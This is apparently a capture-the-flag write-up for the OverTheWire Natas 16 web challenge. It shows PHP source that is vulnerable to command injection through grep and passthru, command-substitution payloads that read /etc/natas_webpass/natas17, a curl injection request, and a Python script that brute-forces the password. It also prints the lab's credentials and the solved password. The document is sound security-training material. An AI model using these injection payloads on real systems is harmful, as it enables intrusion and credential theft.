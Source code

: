 # Over The Wire -- Natas 16

## Server URL
```
http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh@natas16.natas.labs.overthewire.org
```

## Solution
Input box to find words.

Some filtering is applied to the input

The php source code :
```php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We want to bypass
```php
passthru("grep -i \"$key\" dictionary.txt");
```

And this filter is applied on the input :
```php
preg_match('/[;|&`\'"]/',$key)
```

```
curl 'http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh@natas16.natas.labs.overthewire.org/?needle=.%22%20/etc/natas_webpass/natas17%20#&submit=Search'
```


We can use command substitution and grep to bruteforce the password.
We have control over the `$key` variable.
```
$(grep {POTENTIAL_PASSWD_REGEX} /etc/natas_webpass/natas17)
```

The full executed command will be :
```
grep -i "$(grep {POTENTIAL_PASSWD_REGEX} /etc/natas_webpass/natas17)" dictionary.txt
```

If there is no match with `{POTENTIAL_PASSWD_REGEX}`, the command substitution will return `""` and we execute
```
grep -i "" dictionary.txt
```
Which will print the whole dictionary file.
When this happen, we have a MISS.

If the output is empty (Trying to match the password in the dictionary.txt file will get no match) we got a HIT.

We can match the whole password using
```
grep -E ^[a-zA-Z0-9]\{32\}\$ /etc/natas_webpass/natas17
```

Submitting this input will return an empty string (HIT)
```
$(grep -E ^[a-zA-Z0-9]\{32\}\$ /etc/natas_webpass/natas17)
```

We could also extract one letter from the password so that we receive some output confirming the execution (We could get empty output from a syntax error) 
```
^$(expr substr $(grep -E ^[a-zA-Z0-9]\{32\}\$ /etc/natas_webpass/natas17) 2 1)
```
In this case, the second character is `p` (The first character is a number and there is no number in the dictionary).
We then got a hit if we have more than `0` values and less than `50000` (Approximately the number of lines in the dictionary file)

I first tried a full bruteforce approach but it was way too long.

I realised I could extract each character individually and grep the dictionary with it to retrieve every letters (The letter correspond to the first letter of the first word of the output).

But since the `-i` is used with grep, it does a case insensitive search.
Also, there is no numbers in the dictionary so when we receive an empty output, we can assume that the character is a number.

We solve this by first retrieving all the letters without case and determining where are the numbers.
We then bruteforce the numbers and bruteforce the lowercase vs uppercase.

We use this script to solve the challenge :
```py
import requests
import string

url = "http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh@natas16.natas.labs.overthewire.org"

#############################
# Retrieve lowercase password

potential_passwd = ""
passwd_len = 32
for i in range(len(potential_passwd), passwd_len):
    cmd = f"^$(expr substr $(cat /etc/natas_webpass/natas17) {i+1} 1)"

    r = requests.get(url, params={'needle': cmd})

    resp = r.text.split('Output:\n<pre>')[1].split("</pre>")[0]

    dict_values = resp.split('\n')[1:-1]

    if len(dict_values) > 0:
        potential_passwd += dict_values[0][0].lower()
        print(f"Got a char -- {potential_passwd}")
    else:
        # This is probably a number
        print("Got a potential number")
        potential_passwd += "#"

print(f"Potential password : {potential_passwd}")

###########################
# Determine casing & digits

# Number of line in the complete dictionary.txt file
full_dict_len = 50000
so_far = ""
for i, char in enumerate(potential_passwd):
    char_left = 32 - len(so_far) - 1
    if char == "#":
        for digit in string.digits:
            trying = so_far + str(digit)
            print(f"Trying '{trying}'")

            cmd = f"^$(expr substr $(grep -E ^{trying}[a-zA-Z0-9]\\{{{char_left}\\}}\\$ /etc/natas_webpass/natas17) 2 1)"

            r = requests.get(url, params={'needle': cmd})

            resp = r.text.split('Output:\n<pre>')[1].split("</pre>")[0]
            dict_values = resp.split('\n')[1:-1]

            if 0 < len(dict_values) < full_dict_len:
                so_far += str(digit)
                print(f"Got a HIT --- {so_far}")
                break
    else:
        lowercase = True
        for j in range(2):
            trying_char = char.lower() if lowercase else char.upper()
            trying = so_far + trying_char
            print(f"Trying '{trying}'")

            cmd = f"^$(expr substr $(grep -E ^{trying}[a-zA-Z0-9]\\{{{char_left}\\}}\\$ /etc/natas_webpass/natas17) 2 1)"

            r = requests.get(url, params={'needle': cmd})

            resp = r.text.split('Output:\n<pre>')[1].split("</pre>")[0]
            dict_values = resp.split('\n')[1:-1]

            if 0 < len(dict_values) < full_dict_len:
                so_far += trying_char
                print(f"Got a HIT --- {so_far}")
                break
            else:
                lowercase = not lowercase

print(f"Natas17 password is '{so_far}'")
```

The password for natas17 is :
```
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```
